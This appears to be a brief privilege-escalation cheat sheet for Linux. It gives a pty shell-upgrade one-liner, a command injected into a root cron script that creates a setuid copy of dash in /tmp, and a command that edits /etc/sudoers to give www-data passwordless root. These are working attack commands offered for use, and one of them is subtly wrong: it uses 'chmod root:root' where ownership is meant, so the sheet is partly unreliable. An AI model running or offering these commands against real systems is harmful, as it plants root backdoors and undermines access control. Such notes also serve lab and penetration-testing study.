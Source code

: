 Linux Privilege escalation
==========================

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:


**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update

